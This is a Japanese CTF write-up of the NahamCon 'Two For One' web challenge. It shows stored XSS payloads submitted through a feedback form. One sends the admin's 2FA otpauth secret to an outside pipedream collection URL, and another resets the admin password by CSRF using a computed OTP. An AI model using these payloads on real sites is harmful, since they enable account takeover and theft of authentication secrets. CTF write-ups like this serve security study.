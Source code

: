 # Two For One:Web:473pts
Need to keep things secure? Try out our safe, the most secure in the world!  

**Connect with:**  
- [http://challenge.nahamcon.com:31211](http://challenge.nahamcon.com:31211/)  

# Solution
URLが与えられる。  
アカウント登録し、Username、Password、2FA OTPの三つを入力するとログインできる。  
Secretsなるものを投稿したり、閲覧したりできるようだ。  
Fort Knox  
[site1.png](site/site1.png)  
[site2.png](site/site2.png)  
Secrets部分でXSSはできそうにないが、SettingsページにFeedbackなる怪しい機能がある。  
[site3.png](site/site3.png)  
ここで以下を入力し送信することで、XSSを試す。  
リクエスト待ち受けは[RequestBin.com](https://requestbin.com/)を用いた。  
```html
<script>
fetch("https://xxxxxxxxxxxxx.x.pipedream.net");
</script>
```
するとリクエストが到達した。  
XSSが狙えるが、cookieには何も保存されていない。  
Settingsページで管理者のパスワードを変更すればログインできるが、変更にはOTPが必要なようで、Usernameも分からない。  
ここでSettingsページにReset 2FAがあることに気づく。  
挙動を確認してみるとどうやら`/reset2fa`にPOSTを行っており、otpauth URIが返ってくる。  
これを奪うことを考える。  
CSRFトークンなどがあると一度それを取得しなければならないが、どうやら無いようだ。  
Feedbackから管理者のotpauth URIを奪うスクリプトを以下のように投げる。  
```html
<script>
fetch("http://challenge.nahamcon.com:31211/reset2fa", {method:"POST"}).then(res => res.text()).then(text => fetch("https://xxxxxxxxxxxxx.x.pipedream.net?s=" + text));
</script>
```
以下が待ち受けたサーバに届いた。  
```
/?s={%22url%22:%22otpauth://totp/Fort%20Knox:admin?secret=5AXOD3E57PGUZCE2&issuer=Fort%20Knox%22}
```
Usernameはadminのようだ。  
これでadminのOTPが計算できる。  
[One-Time Password Calculator](https://cryptotools.net/otp)などにSecretである`5AXOD3E57PGUZCE2`を渡してやればよい。  
ここから再度adminのパスワードを変更することを狙う。  
以下のスクリプトのotpに現時点でのadminのOTPを設定し、Feedbackから投げる。  
ここでは`279966`であった。  
```html
<script>
fetch("http://challenge.nahamcon.com:31211/reset_password", {
    "headers": {"Content-Type": "application/json"},
    "body": "{\"otp\":\"279966\",\"password\":\"satoki\",\"password2\":\"satoki\"}",
    "method": "POST"
});
</script>
```
これでadminのパスワードが`satoki`に変更されているはずである。  
変動するOTPとともにログインしてやるとFlagというものがあるようだ。  
flag  
[flag.png](site/flag.png)  
OTPを使い閲覧すると、flagが得られた。  

## flag{96710ea6be916326f96de003c1cc97cb}
